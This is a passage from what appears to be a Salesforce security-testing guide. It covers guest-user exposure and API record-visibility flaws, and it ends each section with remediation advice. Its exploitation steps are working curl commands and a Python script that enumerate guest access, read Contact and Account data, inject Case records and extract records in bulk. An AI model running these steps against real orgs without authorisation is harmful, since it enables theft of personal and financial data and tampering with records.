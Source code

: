 ### 4.3 Guest User & Community Exploitation
**Description:** Guest users in Communities or Sites often have unintended access to objects or records.  
**Root Cause:** Overly permissive OWD or sharing rules for guest profiles.  
**Enumeration Techniques:**
- **UI Navigation:** Check `Setup > Sites > [Site Label] > Public Access Settings` for guest profile permissions.
- **SOQL Query (Developer Console):**
  ```sql
  SELECT Id, Name FROM User WHERE Profile.Name LIKE '%Guest%'
  ```
- **Exploitation Steps:**
  1. Access public API endpoints or site URLs (e.g., `https://<siteurl>.force.com/services/data/v58.0/sobjects/`).
  2. Query vulnerable objects like `Case` or `Contact`:
     ```bash
     curl "https://<siteurl>.force.com/services/data/v58.0/query?q=SELECT+Id,Name,Email+FROM+Contact"
     ```
  3. Test creation/modification rights:
     ```bash
     curl -X POST "https://<siteurl>.force.com/services/data/v58.0/sobjects/Case" \
          -H "Content-Type: application/json" \
          -d '{"Subject": "Test Case", "Description": "Injected"}'
     ```
**Impact:** Critical data exposure or manipulation by unauthenticated users.  
**Remediation:** Remove CRUD permissions from guest profiles unless required; set OWD to “Private” for sensitive objects; enable “Secure guest user record access” in Sharing Settings.

---

## Data Exposure & Exfiltration Testing

### 5.1 Insecure Record Visibility via API
**Description:** APIs may return records beyond user permissions due to misconfigured sharing settings.  
**Root Cause:** API queries often bypass UI restrictions if sharing isn’t enforced.  
**Enumeration Techniques:**
- **Obtain API Token:** Use a Connected App or user credentials for access.
- **Query Sensitive Objects (REST API):**
  ```bash
  curl -H "Authorization: Bearer <YOUR_ACCESS_TOKEN>" \
       "https://<INSTANCE>.salesforce.com/services/data/v56.0/query?q=SELECT+Id,Name,AnnualRevenue+FROM+Account+LIMIT+100" \
       -o sensitive_data.json
  ```
- **Exploitation Steps:**
  1. Use a low-privilege account’s token to query objects.
  2. If data is returned, escalate by querying other objects or increasing the `LIMIT`.
  3. Automate extraction with Python:
     ```python
     from simple_salesforce import Salesforce
     sf = Salesforce(instance_url='https://<INSTANCE>.salesforce.com', session_id='<YOUR_ACCESS_TOKEN>')
     result = sf.query("SELECT Id, Name FROM Account LIMIT 1000")
     print(result['records'])
     ```
**Impact:** Bulk extraction of sensitive data (e.g., PII, financials).  
**Remediation:** Enforce sharing rules on API access; limit API scopes for Connected Apps; monitor API usage for anomalies.
